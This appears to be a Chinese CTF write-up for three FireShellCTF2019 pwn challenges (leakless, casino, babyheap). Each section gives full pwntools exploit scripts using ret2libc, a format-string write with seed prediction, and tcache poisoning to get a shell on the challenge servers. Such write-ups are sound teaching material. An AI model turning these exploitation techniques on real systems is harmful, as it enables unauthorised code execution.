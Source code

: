 ```yaml
---
layout: post
title: "FireShellCTF2019反思"
date:   2019-1-28 18:00:00
categories: 比赛反思
tags: WriteUp FireShellCTF2019
---
```


* content
{:toc}

实在是不应该，赛后看了下Pwn最后一题的EXP反省了下，要是能专注去分析还是能搓出来的，结果到后面也只做出来了常规的三题，不是一个很好的阶段结束，写完这篇总结就去肝19WF的参展品了，比赛估计也要停一段时间打不了。






### leakless
```bash
➜  leakless checksec leakless
[*] '/home/Ep3ius/CTF/pwn/process/2019-FireShellCTF/leakless/leakless'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
很基础的32位ret2libc
构造ROP来puts出puts_addr，题目没给libc，但[libc-search](https://libc.blukat.me/)搜得到libc,通过puts_sym来计算出libc_base，然后再计算出system和`/bin/sh`的地址,最后构造ROP链执行`system('/bin/sh')`getshell

#### EXP
```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# Distributed under terms of the MIT license.
# Author = nepire
from pwn import*
context(os='linux',arch='i386',log_level='debug')
# n = process('./leakless')
n = remote('35.243.188.20',2002)
elf = ELF('./leakless')
libc = ELF('./libc.so')

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
pop_ret = 0x080483ad
feedme = 0x080485cb

payload = 'a'*0x48+'aaaa'+p32(puts_plt)+p32(pop_ret)+p32(puts_got)+p32(feedme)
# n.recv()
n.sendline(payload)

libc_base = u32(n.recv(4))-libc.sym['puts']
print "libc_base:",hex(libc_base)

payload = 'a'*0x4c + p32(libc_base + libc.sym['system'])+'aaaa'+p32(libc_base+libc.search('/bin/sh').next())
n.sendline(payload)

n.interactive()
```
#### FLAG
`F#{y3ah!!_y0u_d1d_1t!_C0ngr4tz}`

### casino
```bash
➜  casino checksec casino
[*] '/home/Ep3ius/CTF/pwn/process/2019-FireShellCTF/casino/casino'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
开始输入name的时候有一个`0x10`byte的格式化字符串，然后接着是100次伪随机数的判定，一开始没细看直接搓了100次判定成功的payload，发现拿不到flag，后来仔细看了下要求是`成功的次数大于100次`，正常来说是不可能的，但它判定成功后`累加的是一个全局变量bet`而不是`count++`或`count+=1`，也就是说，我们如果把bet改成大于1的值就可以让最终判断成功次数时大于100,而前面的16byte格式化字符串就足够用来修改任意地址的1byte，虽然因为`8byte补齐`和`\x00截断`的问题坑了好久，但最后还是搓出来一个还行的payload

#### EXP
```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# Distributed under terms of the MIT license.
# Author = nepire
from pwn import*
from ctypes import *
context(os='linux',arch='amd64',log_level='debug')
# n = process('./casino')
n = remote('35.243.188.20',2001)
elf = ELF('./casino')
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')

bet = 0x03
fmt_offset = 10
seed = libc.time(0)/0xa
print "seed:",hex(seed)
seed += bet
libc.srand(seed)
idx = 1
n.recvuntil('?')
payload = 'aaa%11$n'+p32(0x602020).ljust(8,'\x00')
n.sendline(payload)

for i in range(0,99):
    # n.recvuntil('number: ')
    num = libc.rand()
    sleep(0.08)
    n.sendline(str(num))
    s = "<%03d/100>"%idx
    log.success(s)
    idx += 1

n.interactive()
```
#### FLAG
`F#{buggy_c4s1n0_1s_n0t_f41r!}`

### babyheap
```bash
➜  babyheap checksec babyheap
[*] '/home/Ep3ius/CTF/pwn/process/2019-FireShellCTF/babyheap/babyheap'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
本来想说坑，可想想是自己没有先check一下libc版本的锅，只能说自己还不够成熟了（无奈）
```bash
➜  babyheap strings libc.so.6 | grep GNU
GNU C Library (Ubuntu GLIBC 2.26-0ubuntu2.1) stable release version 2.26, by Roland McGrath et al.
Compiled by GNU CC version 6.4.0 20171010.
	GNU Libidn by Simon Josefsson
```
libc版本是2.26，环境切到2.26下开始分析，很快就能就发现可能存在`UAF&double free`，还有一个choice为1337功能大致是malloc(0x60)然后写0x40byte的函数，我们可以想到用UAF劫持程序在一个可写的地方(!! bss段开始的地方有stdin和stdout不能覆盖，要加个偏移)malloc一个块然后通过`1337`函数来伪造bk指针为atoi_got来泄漏出libc，再通过`tcache_poisoning`把atoi_got改成system_addr后回到有用atoi的地方输入`/bin/sh`就能得到shell了。
#### EXP
```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# Distributed under terms of the MIT license.
# Author = nepire
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
# n = process('./babyheap')
n = remote("51.68.189.144", 31005)
elf = ELF('./babyheap')
libc = ELF('./libc.so.6') #2.26


def choice(idx):
    n.recvuntil('> ')
    n.sendline(str(idx))

def new():
    choice(1)

def edit(content):
    choice(2)
    n.recvuntil('Content? ')
    n.sendline(content)

def show():
    choice(3)

def free():
    choice(4)

def readn(content):
    choice(1337)
    n.recvuntil('Fill ')
    n.send(content)


bss = elf.bss()+0x20
log.success(hex(bss))
atoi_got = elf.got['atoi']
log.success(hex(atoi_got))

new()
free()
edit(p64(bss))
new()
# gdb.attach(n)
payload = p64(0)*5 + p64(atoi_got)
readn(payload)
show()
n.recvuntil('Content: ')
libc_base = u64(n.recv(6)+'\x00\x00')-libc.sym['atoi']
print "libc_base:",hex(libc_base)
system_addr = libc_base + libc.sym['system']
edit(p64(system_addr)) #atoi_got -> system_addr
choice('/bin/sh\x00')

n.interactive()
```
